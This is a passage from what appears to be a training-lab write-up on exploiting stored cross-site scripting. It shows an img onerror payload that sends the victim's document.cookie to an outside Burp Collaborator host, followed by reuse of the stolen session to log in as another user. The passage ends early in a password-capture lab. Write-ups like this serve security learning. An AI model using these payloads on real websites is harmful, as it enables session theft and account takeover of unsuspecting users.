 ![image](https://github.com/user-attachments/assets/706142af-7678-416d-90cd-b418ff1cb068)

### Solution
First we test the XSS in one of the blog posts. This payload works:

`</p><img src=x onerror=alert(1) /><p>`

<img width="789" height="631" alt="image" src="https://github.com/user-attachments/assets/301650af-27a2-4d98-ba54-16ba054fc1ab" />

Next we try the payload:

`'document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie'`

```
</p><img src=x onerror='document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie' /><p>

```

We receive cookies in Burp Collaborator:

<img width="1289" height="337" alt="image" src="https://github.com/user-attachments/assets/41892aa9-7ad8-4394-b896-81defde98e86" />



Then intercept the request to the Home page and add these cookies and we are authenticated as another user and lab will be solved:

<img width="627" height="347" alt="image" src="https://github.com/user-attachments/assets/30e8ed03-06cd-4279-9faa-47b6043fb501" />

<img width="828" height="338" alt="image" src="https://github.com/user-attachments/assets/75d0b17b-a7b0-49c5-826a-39f42c04d140" />


---

### LAB 23 - Exploiting cross-site scripting to capture passwords

### Lab Description

![image](https://github.com/user-attachments/assets/6ecb56df-86dc-48a8-a502-7fe39f3354ae)

### Solution

  We test the most simple XSS payload on comments:


    <img width="816" height="646" alt="image" src="https://github.com/user-attachments/assets/48627d45-caa8-448f-be62-24f874bea3f5" />

   It gets executed:

   Next we test a payload from  `https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md`:

